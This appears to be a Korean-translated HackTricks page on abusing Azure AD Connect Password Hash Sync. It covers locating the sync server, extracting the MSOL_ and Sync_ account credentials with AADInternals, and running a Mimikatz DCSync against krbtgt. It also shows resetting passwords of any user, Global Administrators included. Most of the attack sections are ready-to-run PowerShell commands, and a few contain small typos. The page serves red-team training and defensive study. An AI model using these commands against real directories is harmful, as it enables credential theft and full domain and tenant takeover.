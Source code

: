 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Password hash synchronization**은 하이브리드 아이덴티티를 달성하기 위해 사용되는 로그인 방법 중 하나입니다. **Azure AD Connect**는 온프레미스 Active Directory 인스턴스에서 클라우드 기반 Azure AD 인스턴스로 사용자의 비밀번호 해시의 해시를 동기화합니다.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

이는 온프레미스 AD를 Azure AD와 동기화하는 데 사용되는 **가장 일반적인 방법**입니다.

모든 **사용자**와 **비밀번호 해시의 해시**가 온프레미스에서 Azure AD로 동기화됩니다. 그러나 **평문 비밀번호**나 **원본 해시**는 Azure AD로 전송되지 않습니다.\
또한, **내장된** 보안 그룹(예: 도메인 관리자 등)은 Azure AD로 **동기화되지 않습니다**.

**해시 동기화**는 **2분마다** 발생합니다. 그러나 기본적으로 **비밀번호 만료** 및 **계정 만료**는 Azure AD에서 **동기화되지 않습니다**. 따라서 **온프레미스 비밀번호가 만료된**(변경되지 않은) 사용자는 이전 비밀번호를 사용하여 계속 **Azure 리소스에 액세스**할 수 있습니다.

온프레미스 사용자가 Azure 리소스에 액세스하려고 할 때, **인증은 Azure AD에서 이루어집니다**.

**PHS**는 **Identity Protection** 및 AAD Domain Services와 같은 기능에 필요합니다.

## Pivoting

PHS가 구성되면 일부 **특권 계정**이 자동으로 **생성**됩니다:

* **`MSOL_<installationID>`** 계정이 온프레미스 AD에 자동으로 생성됩니다. 이 계정은 **Directory Synchronization Accounts** 역할을 부여받으며 (자세한 내용은 [문서](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions) 참조) 이는 **온프레미스 AD에서 복제(DCSync) 권한을 가집니다**.
* **`Sync_<name of on-prem ADConnect Server>_installationID`** 계정이 Azure AD에 생성됩니다. 이 계정은 Azure AD에서 **모든 사용자**(동기화된 사용자 또는 클라우드 전용)의 **비밀번호를 재설정**할 수 있습니다.

이전의 두 특권 계정의 비밀번호는 **Azure AD Connect가 설치된 서버의 SQL 서버**에 **저장**됩니다. 관리자는 이러한 특권 사용자의 비밀번호를 평문으로 추출할 수 있습니다.\
데이터베이스는 `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`에 위치해 있습니다.

하나의 테이블에서 구성을 추출할 수 있으며, 하나는 암호화되어 있습니다:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**암호화된 구성**은 **DPAPI**로 암호화되어 있으며, 이는 온프레미스 AD의 **`MSOL_*`** 사용자와 AzureAD의 **Sync\_\*** 사용자의 **비밀번호를 포함**합니다. 따라서 이를 손상시키면 AD와 AzureAD로의 권한 상승이 가능합니다.

이 자격 증명이 어떻게 저장되고 해독되는지에 대한 [전체 개요는 이 강연에서 확인할 수 있습니다](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### **Azure AD connect 서버 찾기**

**Azure AD connect가 설치된 서버**가 도메인에 가입된 경우(문서에서 권장됨), 다음을 통해 찾을 수 있습니다:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\* 악용
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
You can also use [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) to obtain these credentials.
{% endhint %}

### Sync\_\* 악용

**`Sync_*`** 계정을 손상시키면 모든 사용자의 **비밀번호를 재설정**할 수 있습니다 (Global Administrators 포함).
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
클라우드 사용자들의 **비밀번호만 수정**하는 것도 가능합니다 (비록 예상치 못한 일이지만)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
이 사용자의 비밀번호를 덤프하는 것도 가능합니다.

{% hint style="danger" %}
다른 옵션으로는 **서비스 주체에 특권 권한을 할당**하는 것이 있으며, 이는 **Sync** 사용자가 **권한**을 가지고 있으며, 그런 다음 **서비스 주체에 접근**하여 privesc를 수행할 수 있습니다.
{% endhint %}

### Seamless SSO

Seamless SSO를 PHS와 함께 사용하는 것이 가능하며, 이는 다른 악용에 취약합니다. 확인해보세요:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
AWS Hacking을 배우고 연습하세요:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking을 배우고 연습하세요: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)을 팔로우하세요.
* **PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 해킹 트릭을 공유하세요.

</details>
{% endhint %}

